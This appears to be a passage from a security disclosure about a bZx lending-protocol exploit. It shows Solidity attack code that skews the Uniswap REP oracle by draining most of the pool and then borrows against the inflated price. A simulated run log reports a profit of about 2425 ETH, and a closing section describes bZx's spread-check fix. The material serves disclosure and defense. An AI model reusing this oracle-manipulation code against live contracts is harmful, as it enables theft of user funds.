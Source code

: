         function makeOrder() external {
            UniswapLike uniswap = REP.getUniswapExchange();
            uint totalSupply = REP.balanceOf(address(uniswap));
            uint borrowAmount = totalSupply * 90 / 100;
            REP.getFromUniswap(borrowAmount);
            printf("making order totalSupply=%.18u borrowed=%.18u\n", abi.encode(totalSupply, borrowAmount));
        }
        
        function borrow() external {
            bytes32 hash = doBorrow(BZX_ETH, true, BZX_ETH.marketLiquidity(), WETH, REP);
            printf("borrowing loanHash=%32x\n", abi.encode(hash));
        }
        
        function cleanup() external {
            REP.giveAllToUniswap();
            WETH.withdrawAll();
        }
        
        function checkProfits() external {
            printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
        }
        
        function borrowInterest(uint amount) internal {
            WETH.deposit.value(amount)();
        }
    }
    
    /*
    ### running script "bzx-uniswap-exploit" at block 8547500
    #### executing step: exploit
    ##### calling: checkRates()
    checking rates tokens=10.000000000000000000 rate=0.057621091203633720 slippage=0.055892458467524708
    ##### calling: makeOrder()
    making order totalSupply=8856.102959786215028808 borrowed=7970.492663807593525927
    ##### calling: checkRates()
    checking rates tokens=10.000000000000000000 rate=5.656379870360426078 slippage=5.486688474249613295
    ##### calling: borrow()
    collateral_required=702.265284613341236862, interest_required=205.433213643594588344
    borrowing loanHash=0x947839881794b73d61a0a27ecdbe8213f543bdd4f4a578eedb5e1be57221109c
    ##### calling: cleanup()
    ##### calling: checkProfits()
    profits=2425.711777227580307468
    #### finished executing step: exploit
    */

#### Solution

The bZx team reverted their changes for the previous attack and instead
implemented a spread check, such that if the spread was above a certain
threshold then the loan would be rejected. This solution handles the generic
case so long as both tokens being queried has at least one non-manipulable
reserve on Kyber, which is currently the case for all whitelisted tokens.
